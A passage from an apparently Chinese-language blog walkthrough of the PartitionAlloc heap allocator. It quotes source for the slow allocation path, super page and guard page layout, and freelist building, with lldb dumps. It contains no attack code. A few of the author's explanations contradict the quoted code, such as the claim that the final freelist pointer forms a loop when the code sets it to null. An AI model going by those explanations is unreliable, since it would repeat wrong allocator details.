        PartitionFreelistEntry* newHead = partitionFreelistMask(static_cast<PartitionFreelistEntry*>(ret)->next);
        page->freelistHead = newHead;
        page->numAllocatedSlots++;
    } else {
        ret = partitionAllocSlowPath(root, flags, size, bucket);
        ASSERT(!ret || partitionPointerIsValid(ret));
    }
#if ENABLE(ASSERT)
    if (!ret)
        return 0;
    // Fill the uninitialized pattern, and write the cookies.
    page = partitionPointerToPage(ret);
    size_t slotSize = page->bucket->slotSize;
    size_t rawSize = partitionPageGetRawSize(page);
    if (rawSize) {
        ASSERT(rawSize == size);
        slotSize = rawSize;
    }
    size_t noCookieSize = partitionCookieSizeAdjustSubtract(slotSize);
    char* charRet = static_cast<char*>(ret);
    // The value given to the application is actually just after the cookie.
    ret = charRet + kCookieSize;
    memset(ret, kUninitializedByte, noCookieSize);
    partitionCookieWriteValue(charRet);
    partitionCookieWriteValue(charRet + kCookieSize + noCookieSize);
#endif
    return ret;
}
```
这里给了两个路径：hot path和slow path。
由于我们是第一次alloc，freelist等等都没有做初始化，所以这里就会进入slow path

<details>
<summary>partitionAllocSlowPath</summary>
```
void* partitionAllocSlowPath(PartitionRootBase* root, int flags, size_t size, PartitionBucket* bucket)
{
    // The slow path is called when the freelist is empty.
    ASSERT(!bucket->activePagesHead->freelistHead);

    PartitionPage* newPage = nullptr;

    // For the partitionAllocGeneric API, we have a bunch of buckets marked
    // as special cases. We bounce them through to the slow path so that we
    // can still have a blazing fast hot path due to lack of corner-case
    // branches.
    bool returnNull = flags & PartitionAllocReturnNull;
    if (UNLIKELY(partitionBucketIsDirectMapped(bucket))) {
        
        ......
        
    } else if (LIKELY(partitionSetNewActivePage(bucket))) {
        
        ......
        
    } else if (LIKELY(bucket->emptyPagesHead != nullptr) || LIKELY(bucket->decommittedPagesHead != nullptr)) {
        
        ......
        
                    }
            
            ......
            
        }
        if (UNLIKELY(!newPage) && LIKELY(bucket->decommittedPagesHead != nullptr)) {
            
            ......
            
        }
        ASSERT(newPage);
    } else {
        //If we get here, we need a brand new page.
        uint16_t numPartitionPages = partitionBucketPartitionPages(bucket);
        void* rawPages = partitionAllocPartitionPages(root, flags, numPartitionPages);
        if (LIKELY(rawPages != nullptr)) {
            newPage = partitionPointerToPageNoAlignmentCheck(rawPages);
            partitionPageSetup(newPage, bucket);
        }
    }

    // Bail if we had a memory allocation failure.
    if (UNLIKELY(!newPage)) {
        ......
    }

    bucket = newPage->bucket;
    ASSERT(bucket != &PartitionRootBase::gPagedBucket);
    bucket->activePagesHead = newPage;
    partitionPageSetRawSize(newPage, size);

    // If we found an active page with free slots, or an empty page, we have a
    // usable freelist head.
    if (LIKELY(newPage->freelistHead != nullptr)) {
        
   .......
   
   
    }
    // Otherwise, we need to build the freelist.
    ASSERT(newPage->numUnprovisionedSlots);
    return partitionPageAllocAndFillFreelist(newPage);
}
```
</details>
我们现在需要获得一个新的页（因为我们没有做过初始化，所以相应的指针都指向了空），代码如下：
```
uint16_t numPartitionPages = partitionBucketPartitionPages(bucket);
        void* rawPages = partitionAllocPartitionPages(root, flags, numPartitionPages);

```

#### partitionBucketPartitionPages

```
static ALWAYS_INLINE uint16_t partitionBucketPartitionPages(const PartitionBucket* bucket)
{
    return (bucket->numSystemPagesPerSlotSpan + (kNumSystemPagesPerPartitionPage - 1)) / kNumSystemPagesPerPartitionPage;
}
```
计算出PartitionPage的数目

#### partitionAllocPartitionPages


<details>
<summary>partitionAllocPartitionPages</summary>
```
static ALWAYS_INLINE void* partitionAllocPartitionPages(PartitionRootBase* root, int flags, uint16_t numPartitionPages)
{
    ASSERT(!(reinterpret_cast<uintptr_t>(root->nextPartitionPage) % kPartitionPageSize));
    ASSERT(!(reinterpret_cast<uintptr_t>(root->nextPartitionPageEnd) % kPartitionPageSize));
    ASSERT(numPartitionPages <= kNumPartitionPagesPerSuperPage);
    size_t totalSize = kPartitionPageSize * numPartitionPages;
    size_t numPartitionPagesLeft = (root->nextPartitionPageEnd - root->nextPartitionPage) >> kPartitionPageShift;
    if (LIKELY(numPartitionPagesLeft >= numPartitionPages)) {
        // In this case, we can still hand out pages from the current super page
        // allocation.
        char* ret = root->nextPartitionPage;
        root->nextPartitionPage += totalSize;
        partitionIncreaseCommittedPages(root, totalSize);
        return ret;
    }

    // Need a new super page. We want to allocate super pages in a continguous
    // address region as much as possible. This is important for not causing
    // page table bloat and not fragmenting address spaces in 32 bit architectures.
    char* requestedAddress = root->nextSuperPage;
    void* result;
    result = allocPages(requestedAddress, kSuperPageSize, kSuperPageSize, PageAccessible);
    printf("%p",result);
    char* superPage = static_cast<char*>(result);
    if (UNLIKELY(!superPage))
        return 0;

    root->totalSizeOfSuperPages += kSuperPageSize;
    partitionIncreaseCommittedPages(root, totalSize);

    root->nextSuperPage = superPage + kSuperPageSize;
    char* ret = superPage + kPartitionPageSize;
    root->nextPartitionPage = ret + totalSize;
    root->nextPartitionPageEnd = root->nextSuperPage - kPartitionPageSize;
    // Make the first partition page in the super page a guard page, but leave a
    // hole in the middle.
    // This is where we put page metadata and also a tiny amount of extent
    // metadata.
    setSystemPagesInaccessible(superPage, kSystemPageSize);
    setSystemPagesInaccessible(superPage + (kSystemPageSize * 2), kPartitionPageSize - (kSystemPageSize * 2));
    // Also make the last partition page a guard page.
    setSystemPagesInaccessible(superPage + (kSuperPageSize - kPartitionPageSize), kPartitionPageSize);

    // If we were after a specific address, but didn't get it, assume that
    // the system chose a lousy address. Here most OS'es have a default
    // algorithm that isn't randomized. For example, most Linux
    // distributions will allocate the mapping directly before the last
    // successful mapping, which is far from random. So we just get fresh
    // randomness for the next mapping attempt.
    if (requestedAddress && requestedAddress != superPage)
        root->nextSuperPage = 0;

    // We allocated a new super page so update super page metadata.
    // First check if this is a new extent or not.
    PartitionSuperPageExtentEntry* latestExtent = reinterpret_cast<PartitionSuperPageExtentEntry*>(partitionSuperPageToMetadataArea(superPage));
    // By storing the root in every extent metadata object, we have a fast way
    // to go from a pointer within the partition to the root object.
    latestExtent->root = root;
    // Most new extents will be part of a larger extent, and these three fields
    // are unused, but we initialize them to 0 so that we get a clear signal
    // in case they are accidentally used.
    latestExtent->superPageBase = 0;
    latestExtent->superPagesEnd = 0;
    latestExtent->next = 0;

    PartitionSuperPageExtentEntry* currentExtent = root->currentExtent;
    bool isNewExtent = (superPage != requestedAddress);
    if (UNLIKELY(isNewExtent)) {
        if (UNLIKELY(!currentExtent)) {
            ASSERT(!root->firstExtent);
            root->firstExtent = latestExtent;
        } else {
            ASSERT(currentExtent->superPageBase);
            currentExtent->next = latestExtent;
        }
        root->currentExtent = latestExtent;
        latestExtent->superPageBase = superPage;
        latestExtent->superPagesEnd = superPage + kSuperPageSize;
    } else {
        // We allocated next to an existing extent so just nudge the size up a little.
        ASSERT(currentExtent->superPagesEnd);
        currentExtent->superPagesEnd += kSuperPageSize;
        ASSERT(ret >= currentExtent->superPageBase && ret < currentExtent->superPagesEnd);
    }
    return ret;
}
```
</details>
我们目前是没有superpages的,所以我们先申请一个superpage：
```
    char* requestedAddress = root->nextSuperPage;
    void* result;
    result = allocPages(requestedAddress, kSuperPageSize, kSuperPageSize, PageAccessible);
    printf("%p",result);
    char* superPage = static_cast<char*>(result);
    if (UNLIKELY(!superPage))
        return 0;
```

#### allocPages

<details>
<summary>allocPages</summary>

```
void* allocPages(void* addr, size_t len, size_t align, PageAccessibilityConfiguration pageAccessibility)
{
    ASSERT(len >= kPageAllocationGranularity);
    ASSERT(!(len & kPageAllocationGranularityOffsetMask));
    ASSERT(align >= kPageAllocationGranularity);
    ASSERT(!(align & kPageAllocationGranularityOffsetMask));
    ASSERT(!(reinterpret_cast<uintptr_t>(addr) & kPageAllocationGranularityOffsetMask));
    size_t alignOffsetMask = align - 1;
    size_t alignBaseMask = ~alignOffsetMask;
    ASSERT(!(reinterpret_cast<uintptr_t>(addr) & alignOffsetMask));
    // If the client passed null as the address, choose a good one.
    if (!addr) {
        addr = getRandomPageBase();
        addr = reinterpret_cast<void*>(reinterpret_cast<uintptr_t>(addr) & alignBaseMask);
    }

    // The common case, which is also the least work we can do, is that the
    // address and length are suitable. Just try it.
    void* ret = systemAllocPages(addr, len, pageAccessibility);
    // If the alignment is to our liking, we're done.
    if (!ret || !(reinterpret_cast<uintptr_t>(ret) & alignOffsetMask))
        return ret;

    // Annoying. Unmap and map a larger range to be sure to succeed on the
    // second, slower attempt.
    freePages(ret, len);

    size_t tryLen = len + (align - kPageAllocationGranularity);
    RELEASE_ASSERT(tryLen > len);

    // We loop to cater for the unlikely case where another thread maps on top
    // of the aligned location we choose.
    int count = 0;
    while (count++ < 100) {
        ret = systemAllocPages(addr, tryLen, pageAccessibility);
        if (!ret)
            return 0;
        // We can now try and trim out a subset of the mapping.
        addr = reinterpret_cast<void*>((reinterpret_cast<uintptr_t>(ret) + alignOffsetMask) & alignBaseMask);
        // On POSIX systems, we can trim the oversized mapping to fit exactly.
        // This will always work on POSIX systems.
        if (ret && !(ret = trimMapping(ret, tryLen, len, align, pageAccessibility)))
            return addr;

        // On Windows, you can't trim an existing mapping so we unmap and remap
        // a subset. We used to do for all platforms, but OSX 10.8 has a
        // broken mmap() that ignores address hints for valid, unused addresses.
        freePages(ret, tryLen);
        ret = systemAllocPages(addr, len, pageAccessibility);
        if (ret == addr || !ret)
            return ret;

        // Unlikely race / collision. Do the simple thing and just start again.
        freePages(ret, len);
        addr = getRandomPageBase();
        addr = reinterpret_cast<void*>(reinterpret_cast<uintptr_t>(addr) & alignBaseMask);
    }
    IMMEDIATE_CRASH();
    return 0;
}
```
</details>

```
    if (!addr) {
        addr = getRandomPageBase();
        addr = reinterpret_cast<void*>(reinterpret_cast<uintptr_t>(addr) & alignBaseMask);
    }
```
这里的addr就是参数一（requestedAddress = root->nextSuperPage;）此时我们没有superpage，所以调用getRandomPageBase()来获得一个地址。

```
void* getRandomPageBase()
{
    uintptr_t random;
    random = static_cast<uintptr_t>(ranval(&s_ranctx));
#if CPU(X86_64)
    random <<= 32UL;
    random |= static_cast<uintptr_t>(ranval(&s_ranctx));
    // This address mask gives a low liklihood of address space collisions.
    // We handle the situation gracefully if there is a collision.
#if OS(WIN)
    // 64-bit Windows has a bizarrely small 8TB user address space.
    // Allocates in the 1-5TB region.
    // TODO(cevans): I think Win 8.1 has 47-bits like Linux.
    random &= 0x3ffffffffffUL;
    random += 0x10000000000UL;
#else
    // Linux and OS X support the full 47-bit user space of x64 processors.
    random &= 0x3fffffffffffUL;
#endif
#elif CPU(ARM64)
    // ARM64 on Linux has 39-bit user space.
    random &= 0x3fffffffffUL;
    random += 0x1000000000UL;
#else // !CPU(X86_64) && !CPU(ARM64)
    // This is a good range on Windows, Linux and Mac.
    // Allocates in the 0.5-1.5GB region.
    random &= 0x3fffffff;
    random += 0x20000000;
#endif // CPU(X86_64)
    random &= kPageAllocationGranularityBaseMask;
    return reinterpret_cast<void*>(random);
}
```
这里的随机算法没太搞懂，总之就是随机了一个48字节的地址。

#### 之后调用systemAllocPages

```
static void* systemAllocPages(void* addr, size_t len, PageAccessibilityConfiguration pageAccessibility)
{
    ASSERT(!(len & kPageAllocationGranularityOffsetMask));
    ASSERT(!(reinterpret_cast<uintptr_t>(addr) & kPageAllocationGranularityOffsetMask));
    void* ret;
#if OS(WIN)
    int accessFlag = pageAccessibility == PageAccessible ? PAGE_READWRITE : PAGE_NOACCESS;
    ret = VirtualAlloc(addr, len, MEM_RESERVE | MEM_COMMIT, accessFlag);
    if (!ret)
        ret = VirtualAlloc(0, len, MEM_RESERVE | MEM_COMMIT, accessFlag);
#else
    int accessFlag = pageAccessibility == PageAccessible ? (PROT_READ | PROT_WRITE) : PROT_NONE;
    ret = mmap(addr, len, accessFlag, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
    if (ret == MAP_FAILED)
        ret = 0;
#endif
    return ret;
}
```
主要逻辑就是根据该page是否可访问来确定属性，之后用mmap为刚才随机的地址做一个映射。

之后这个地址就作为了我们的superpage的地址。

#### 接下来为PartitionRootBase和super page做初始化

```
    root->totalSizeOfSuperPages += kSuperPageSize;
    partitionIncreaseCommittedPages(root, totalSize);

    root->nextSuperPage = superPage + kSuperPageSize;
    char* ret = superPage + kPartitionPageSize;
    root->nextPartitionPage = ret + totalSize;
    root->nextPartitionPageEnd = root->nextSuperPage - kPartitionPageSize;
    // Make the first partition page in the super page a guard page, but leave a
    // hole in the middle.
    // This is where we put page metadata and also a tiny amount of extent
    // metadata.
    setSystemPagesInaccessible(superPage, kSystemPageSize);
    setSystemPagesInaccessible(superPage + (kSystemPageSize * 2), kPartitionPageSize - (kSystemPageSize * 2));
    // Also make the last partition page a guard page.
    setSystemPagesInaccessible(superPage + (kSuperPageSize - kPartitionPageSize), kPartitionPageSize);
```

这里重点来看super page的初始化：我们知道super page的格式如下：


我们按照代码来画一个示意图：

```
    setSystemPagesInaccessible(superPage, kSystemPageSize);
    setSystemPagesInaccessible(superPage + (kSystemPageSize * 2), kPartitionPageSize - (kSystemPageSize * 2));
    // Also make the last partition page a guard page.
    setSystemPagesInaccessible(superPage + (kSuperPageSize - kPartitionPageSize), kPartitionPageSize);

示意图：

Addr | flag | size

superPage                                           ---p        kSystemPageSize     //Guard page    
superPage + kSystemPageSize                         rw-p        kSystemPageSize     //Metadata page    
superPage + (kSystemPageSize * 2)                   ---p        kPartitionPageSize - (kSystemPageSize * 2)        //Guard pages    
superPage + kPartitionPageSize                      rw-p        kSuperPageSize - (kPartitionPageSize * 2)        //Slot span    
superPage + (kSuperPageSize - kPartitionPageSize)   ---p        kPartitionPageSize        //Guard pages
```

上面我们只是为Metadata和slot span挖了一个洞，所以我们接下来要为他们初始化（slot span在分配的时候初始化）：

```
PartitionSuperPageExtentEntry* latestExtent = reinterpret_cast<PartitionSuperPageExtentEntry*>(partitionSuperPageToMetadataArea(superPage));


ALWAYS_INLINE char* partitionSuperPageToMetadataArea(char* ptr)
{
    uintptr_t pointerAsUint = reinterpret_cast<uintptr_t>(ptr);
    ASSERT(!(pointerAsUint & kSuperPageOffsetMask));
    // The metadata area is exactly one system page (the guard page) into the
    // super page.
    return reinterpret_cast<char*>(pointerAsUint + kSystemPageSize);
}
```

将superPage + kSystemPageSize设置为metadata。

剩下的内容就是PartitionRootBase和PartitionSuperPageExtentEntry的初始化了，看看下图和代码就可以懂。



该函数的返回值为slot span地址，返回到slowpath

#### 回到slowpath,处理slot span

```
void* rawPages = partitionAllocPartitionPages(root, flags, numPartitionPages);
        if (LIKELY(rawPages != nullptr)) {
            newPage = partitionPointerToPageNoAlignmentCheck(rawPages);
            partitionPageSetup(newPage, bucket);
        }
```

partitionPointerToPageNoAlignmentCheck函数：
```
ALWAYS_INLINE PartitionPage* partitionPointerToPageNoAlignmentCheck(void* ptr)
{
    uintptr_t pointerAsUint = reinterpret_cast<uintptr_t>(ptr);
    char* superPagePtr = reinterpret_cast<char*>(pointerAsUint & kSuperPageBaseMask);
    uintptr_t partitionPageIndex = (pointerAsUint & kSuperPageOffsetMask) >> kPartitionPageShift;
    // Index 0 is invalid because it is the metadata and guard area and
    // the last index is invalid because it is a guard page.
    ASSERT(partitionPageIndex);
    ASSERT(partitionPageIndex < kNumPartitionPagesPerSuperPage - 1);
    PartitionPage* page = reinterpret_cast<PartitionPage*>(partitionSuperPageToMetadataArea(superPagePtr) + (partitionPageIndex << kPageMetadataShift));
    // Partition pages in the same slot span can share the same page object. Adjust for that.
    size_t delta = page->pageOffset << kPageMetadataShift;
    page = reinterpret_cast<PartitionPage*>(reinterpret_cast<char*>(page) - delta);
    return page;
}
```

我们来看下这个图：


该函数的作用就是找到对应的slot span在metadata中的地址。

#### partitionPageSetup

```
static ALWAYS_INLINE void partitionPageSetup(PartitionPage* page, PartitionBucket* bucket)
{
    // The bucket never changes. We set it up once.
    page->bucket = bucket;
    page->emptyCacheIndex = -1;

    partitionPageReset(page);

    // If this page has just a single slot, do not set up page offsets for any
    // page metadata other than the first one. This ensures that attempts to
    // touch invalid page metadata fail.
    if (page->numUnprovisionedSlots == 1)
        return;

    uint16_t numPartitionPages = partitionBucketPartitionPages(bucket);
    char* pageCharPtr = reinterpret_cast<char*>(page);
    for (uint16_t i = 1; i < numPartitionPages; ++i) {
        pageCharPtr += kPageMetadataSize;
        PartitionPage* secondaryPage = reinterpret_cast<PartitionPage*>(pageCharPtr);
        secondaryPage->pageOffset = i;
    }
}
```
该函数的作用是根据bucket中，partitionpage的数量来在metadata中设置对应的指针：

```
    uint16_t numPartitionPages = partitionBucketPartitionPages(bucket);
    char* pageCharPtr = reinterpret_cast<char*>(page);
    for (uint16_t i = 1; i < numPartitionPages; ++i) {
        pageCharPtr += kPageMetadataSize;
        PartitionPage* secondaryPage = reinterpret_cast<PartitionPage*>(pageCharPtr);
        secondaryPage->pageOffset = i;
    }
```
可以参考下面的图：


我们现在的（PartitionPage *）newpage还未初始化：
```
struct PartitionPage {
    PartitionFreelistEntry* freelistHead;
    PartitionPage* nextPage;
    PartitionBucket* bucket;
    int16_t numAllocatedSlots; // Deliberately signed, 0 for empty or decommitted page, -n for full pages.
    uint16_t numUnprovisionedSlots;
    uint16_t pageOffset;
    int16_t emptyCacheIndex; // -1 if not in the empty cache.
};
```
所以我们需要先对他进行初始化，freelistHead是分配必不可少的。

#### partitionPageAllocAndFillFreelist

<details>
<summary>partitionPageAllocAndFillFreelist</summary>
```
static ALWAYS_INLINE char* partitionPageAllocAndFillFreelist(PartitionPage* page)
{
    ASSERT(page != &PartitionRootGeneric::gSeedPage);
    uint16_t numSlots = page->numUnprovisionedSlots;
    ASSERT(numSlots);
    PartitionBucket* bucket = page->bucket;
    // We should only get here when _every_ slot is either used or unprovisioned.
    // (The third state is "on the freelist". If we have a non-empty freelist, we should not get here.)
    ASSERT(numSlots + page->numAllocatedSlots == partitionBucketSlots(bucket));
    // Similarly, make explicitly sure that the freelist is empty.
    ASSERT(!page->freelistHead);
    ASSERT(page->numAllocatedSlots >= 0);

    size_t size = bucket->slotSize;
    char* base = reinterpret_cast<char*>(partitionPageToPointer(page));
    char* returnObject = base + (size * page->numAllocatedSlots);
    char* firstFreelistPointer = returnObject + size;
    char* firstFreelistPointerExtent = firstFreelistPointer + sizeof(PartitionFreelistEntry*);
    // Our goal is to fault as few system pages as possible. We calculate the
    // page containing the "end" of the returned slot, and then allow freelist
    // pointers to be written up to the end of that page.
    char* subPageLimit = reinterpret_cast<char*>(partitionRoundUpToSystemPage(reinterpret_cast<size_t>(firstFreelistPointer)));
    char* slotsLimit = returnObject + (size * numSlots);
    char* freelistLimit = subPageLimit;
    if (UNLIKELY(slotsLimit < freelistLimit))
        freelistLimit = slotsLimit;

    uint16_t numNewFreelistEntries = 0;
    if (LIKELY(firstFreelistPointerExtent <= freelistLimit)) {
        // Only consider used space in the slot span. If we consider wasted
        // space, we may get an off-by-one when a freelist pointer fits in the
        // wasted space, but a slot does not.
        // We know we can fit at least one freelist pointer.
        numNewFreelistEntries = 1;
        // Any further entries require space for the whole slot span.
        numNewFreelistEntries += static_cast<uint16_t>((freelistLimit - firstFreelistPointerExtent) / size);
    }

    // We always return an object slot -- that's the +1 below.
    // We do not neccessarily create any new freelist entries, because we cross sub page boundaries frequently for large bucket sizes.
    ASSERT(numNewFreelistEntries + 1 <= numSlots);
    numSlots -= (numNewFreelistEntries + 1);
    page->numUnprovisionedSlots = numSlots;
    page->numAllocatedSlots++;

    if (LIKELY(numNewFreelistEntries)) {
        char* freelistPointer = firstFreelistPointer;
        PartitionFreelistEntry* entry = reinterpret_cast<PartitionFreelistEntry*>(freelistPointer);
        page->freelistHead = entry;
        while (--numNewFreelistEntries) {
            freelistPointer += size;
            PartitionFreelistEntry* nextEntry = reinterpret_cast<PartitionFreelistEntry*>(freelistPointer);
            entry->next = partitionFreelistMask(nextEntry);
            entry = nextEntry;
        }
        entry->next = partitionFreelistMask(0);
    } else {
        page->freelistHead = 0;
    }
    return returnObject;
}
```
</details>


```
    size_t size = bucket->slotSize;
    char* base = reinterpret_cast<char*>(partitionPageToPointer(page));
    char* returnObject = base + (size * page->numAllocatedSlots);
    char* firstFreelistPointer = returnObject + size;
    char* firstFreelistPointerExtent = firstFreelistPointer + sizeof(PartitionFreelistEntry*);
    // Our goal is to fault as few system pages as possible. We calculate the
    // page containing the "end" of the returned slot, and then allow freelist
    // pointers to be written up to the end of that page.
    char* subPageLimit = reinterpret_cast<char*>(partitionRoundUpToSystemPage(reinterpret_cast<size_t>(firstFreelistPointer)));
    char* slotsLimit = returnObject + (size * numSlots);
    char* freelistLimit = subPageLimit;
    if (UNLIKELY(slotsLimit < freelistLimit))
        freelistLimit = slotsLimit;
```
partitionPageToPointer函数的作用是找到对应的slot中的partitionpage，此时base为slot中第一个partitionpage所在的地址。
这里计算了freelisthead（firstFreelistPointer和firstFreelistPointerExtent）的地址以及slotsLimit（slot大小为0x4000）和freelistLimit（freelist大小0x1000）。

```
    uint16_t numNewFreelistEntries = 0;
    if (LIKELY(firstFreelistPointerExtent <= freelistLimit)) {
        // Only consider used space in the slot span. If we consider wasted
        // space, we may get an off-by-one when a freelist pointer fits in the
        // wasted space, but a slot does not.
        // We know we can fit at least one freelist pointer.
        numNewFreelistEntries = 1;
        // Any further entries require space for the whole slot span.
        numNewFreelistEntries += static_cast<uint16_t>((freelistLimit - firstFreelistPointerExtent) / size);
    }
```
根据要分配的大小，计算出当前partitionpage可容纳的Entry的个数。

```
    ASSERT(numNewFreelistEntries + 1 <= numSlots);
    numSlots -= (numNewFreelistEntries + 1);
    page->numUnprovisionedSlots = numSlots;
    page->numAllocatedSlots++;

    if (LIKELY(numNewFreelistEntries)) {
        char* freelistPointer = firstFreelistPointer;
        PartitionFreelistEntry* entry = reinterpret_cast<PartitionFreelistEntry*>(freelistPointer);
        page->freelistHead = entry;
        while (--numNewFreelistEntries) {
            freelistPointer += size;
            PartitionFreelistEntry* nextEntry = reinterpret_cast<PartitionFreelistEntry*>(freelistPointer);
            entry->next = partitionFreelistMask(nextEntry);
            entry = nextEntry;
        }
        entry->next = partitionFreelistMask(0);
    } else {
        page->freelistHead = 0;
    }
    return returnObject;
```

在循环中，按分配大小依次布置freelist指针。(由于partitionalloc的特性这里需要存储为大端序，所以这里使用partitionFreelistMask函数来进行处理)。
```
(lldb) x/4gx 0x00002cee44a04020
0x2cee44a04020: 0x4040a044ee2c0000 0x0000000000000000
0x2cee44a04030: 0x0000000000000000 0x0000000000000000
(lldb) x/4gx 0x00002cee44a04040
0x2cee44a04040: 0x6040a044ee2c0000 0x0000000000000000
0x2cee44a04050: 0x0000000000000000 0x0000000000000000
(lldb) x/4gx 0x00002cee44a04060
0x2cee44a04060: 0x8040a044ee2c0000 0x0000000000000000
0x2cee44a04070: 0x0000000000000000 0x0000000000000000
```

最后一个freelist指针指向开头entry->next = partitionFreelistMask(0);形成一个环。


#### bucketalloc的最后一个环节
```
    page = partitionPointerToPage(ret); //获得当前slot中对应的partitionpage中分配的用户区地址
    size_t slotSize = page->bucket->slotSize;
    size_t rawSize = partitionPageGetRawSize(page); //只要不大于16*0x1000就返回0
    if (rawSize) {
        ASSERT(rawSize == size);
        slotSize = rawSize;
    }
    
    //添加cookie
    size_t noCookieSize = partitionCookieSizeAdjustSubtract(slotSize);
    char* charRet = static_cast<char*>(ret);
    // The value given to the application is actually just after the cookie.
    ret = charRet + kCookieSize;
    memset(ret, kUninitializedByte, noCookieSize);
    partitionCookieWriteValue(charRet);
    partitionCookieWriteValue(charRet + kCookieSize + noCookieSize);
#endif
    return ret;
```
简单介绍一下我们申请的用户区在partitionpage中的布局：
```
user data size
```

若是有cookie
```
cookie 0x10
user data size
cookie 0x10
```
我们可用的用户区是在两个cookie中间的。

在之前我们只是为cookie预留了空间，在这里正式添加cookie，到此alloc的主要内容就结束了。

alloc之后的PartitionRootBase：

<details>
<summary>PartitionRootBase</summary>

```
(WTF::PartitionAllocatorGeneric) ::my_partition = {
  m_partitionRoot = {
    WTF::PartitionRootBase = {
      totalSizeOfCommittedPages = 16384
      totalSizeOfSuperPages = 2097152
      totalSizeOfDirectMappedPages = 0
      numBuckets = 0
      maxAllocation = 0
      initialized = true
      nextSuperPage = 0x00000f99ede00000 ""
      nextPartitionPage = 0x00000f99edc08000 ""
      nextPartitionPageEnd = 0x00000f99eddfc000 ""
      currentExtent = 0x00000f99edc01000
      firstExtent = 0x00000f99edc01000
      directMapList = 0x0000000000000000
      globalEmptyPageRing = {
        [0] = 0x0000000000000000
        [1] = 0x0000000000000000
        [2] = 0x0000000000000000
        [3] = 0x0000000000000000
        [4] = 0x0000000000000000
        [5] = 0x0000000000000000
        [6] = 0x0000000000000000
        [7] = 0x0000000000000000
        [8] = 0x0000000000000000
        [9] = 0x0000000000000000
        [10] = 0x0000000000000000
        [11] = 0x0000000000000000
        [12] = 0x0000000000000000
        [13] = 0x0000000000000000
        [14] = 0x0000000000000000
        [15] = 0x0000000000000000
      }
      globalEmptyPageRingIndex = 0
      invertedSelf = 18446744069414502055
    }
    lock = 0
    orderIndexShifts = {
      [0] = 0
      [1] = 0
      [2] = 0
      [3] = 0
      [4] = 0
      [5] = 1
      [6] = 2
      [7] = 3
      [8] = 4
      [9] = 5
      [10] = 6
      [11] = 7
      [12] = 8
      [13] = 9
      [14] = 10
      [15] = 11
      [16] = 12
      [17] = 13
      [18] = 14
      [19] = 15
      [20] = 16
      [21] = 17
      [22] = 18
      [23] = 19
      [24] = 20
      [25] = 21
      [26] = 22
      [27] = 23
      [28] = 24
      [29] = 25
      [30] = 26
      [31] = 27
      [32] = 28
      [33] = 29
      [34] = 30
      [35] = 31
      [36] = 32
      [37] = 33
      [38] = 34
      [39] = 35
      [40] = 36
      [41] = 37
      [42] = 38
      [43] = 39
      [44] = 40
      [45] = 41
      [46] = 42
      [47] = 43
      [48] = 44
      [49] = 45
      [50] = 46
      [51] = 47
      [52] = 48
      [53] = 49
      [54] = 50
      [55] = 51
      [56] = 52
      [57] = 53
      [58] = 54
      [59] = 55
      [60] = 56
      [61] = 57
      [62] = 58
      [63] = 59
      [64] = 60
    }
    orderSubIndexMasks = {
      [0] = 0
      [1] = 0
      [2] = 0
      [3] = 0
      [4] = 0
      [5] = 1
      [6] = 3
      [7] = 7
      [8] = 15
      [9] = 31
      [10] = 63
      [11] = 127
      [12] = 255
      [13] = 511
      [14] = 1023
      [15] = 2047
      [16] = 4095
      [17] = 8191
      [18] = 16383
      [19] = 32767
      [20] = 65535
      [21] = 131071
      [22] = 262143
      [23] = 524287
      [24] = 1048575
      [25] = 2097151
      [26] = 4194303
      [27] = 8388607
      [28] = 16777215
      [29] = 33554431
      [30] = 67108863
      [31] = 134217727
      [32] = 268435455
      [33] = 536870911
      [34] = 1073741823
      [35] = 2147483647
      [36] = 4294967295
      [37] = 8589934591
      [38] = 17179869183
      [39] = 34359738367
      [40] = 68719476735
      [41] = 137438953471
      [42] = 274877906943
      [43] = 549755813887
      [44] = 1099511627775
      [45] = 2199023255551
      [46] = 4398046511103
      [47] = 8796093022207
      [48] = 17592186044415
      [49] = 35184372088831
      [50] = 70368744177663
      [51] = 140737488355327
      [52] = 281474976710655
      [53] = 562949953421311
      [54] = 1125899906842623
      [55] = 2251799813685247
      [56] = 4503599627370495
      [57] = 9007199254740991
      [58] = 18014398509481983
      [59] = 36028797018963967
      [60] = 72057594037927935
      [61] = 144115188075855871
      [62] = 288230376151711743
      [63] = 576460752303423487
      [64] = 1152921504606846975
    }
    bucketLookups = {
      [0] = 0x00000001000156a0
      [1] = 0x00000001000156a0
      [2] = 0x00000001000156a0
      [3] = 0x00000001000156a0
      [4] = 0x00000001000156a0
      [5] = 0x00000001000156a0
      [6] = 0x00000001000156a0
      [7] = 0x00000001000156a0
      [8] = 0x00000001000156a0
      [9] = 0x00000001000156a0
      [10] = 0x00000001000156a0
      [11] = 0x00000001000156a0
      [12] = 0x00000001000156a0
      [13] = 0x00000001000156a0
      [14] = 0x00000001000156a0
      [15] = 0x00000001000156a0
      [16] = 0x00000001000156a0
      [17] = 0x00000001000156a0
      [18] = 0x00000001000156a0
      [19] = 0x00000001000156a0
      [20] = 0x00000001000156a0
      [21] = 0x00000001000156a0
      [22] = 0x00000001000156a0
      [23] = 0x00000001000156a0
      [24] = 0x00000001000156a0
      [25] = 0x00000001000156a0
      [26] = 0x00000001000156a0
      [27] = 0x00000001000156a0
      [28] = 0x00000001000156a0
      [29] = 0x00000001000156a0
      [30] = 0x00000001000156a0
      [31] = 0x00000001000156a0
      [32] = 0x00000001000156a0
      [33] = 0x00000001000157a0
      [34] = 0x00000001000157a0
      [35] = 0x00000001000157a0
      [36] = 0x00000001000157a0
      [37] = 0x00000001000157a0
      [38] = 0x00000001000157a0
      [39] = 0x00000001000157a0
      [40] = 0x00000001000157a0
      [41] = 0x0000000100015820
      [42] = 0x0000000100015820
      [43] = 0x0000000100015820
      [44] = 0x0000000100015820
      [45] = 0x00000001000158a0
      [46] = 0x00000001000158a0
      [47] = 0x00000001000158a0
      [48] = 0x00000001000158a0
      [49] = 0x00000001000158e0
      [50] = 0x00000001000158e0
      [51] = 0x0000000100015920
      [52] = 0x0000000100015920
      [53] = 0x0000000100015960
      [54] = 0x0000000100015960
      [55] = 0x00000001000159a0
      [56] = 0x00000001000159a0
      [57] = 0x00000001000159c0
      [58] = 0x00000001000159e0
      [59] = 0x0000000100015a00
      [60] = 0x0000000100015a20
      [61] = 0x0000000100015a40
      [62] = 0x0000000100015a60
      [63] = 0x0000000100015a80
      [64] = 0x0000000100015aa0
      [65] = 0x0000000100015ac0
      [66] = 0x0000000100015ae0
      [67] = 0x0000000100015b00
      [68] = 0x0000000100015b20
      [69] = 0x0000000100015b40
      [70] = 0x0000000100015b60
      [71] = 0x0000000100015b80
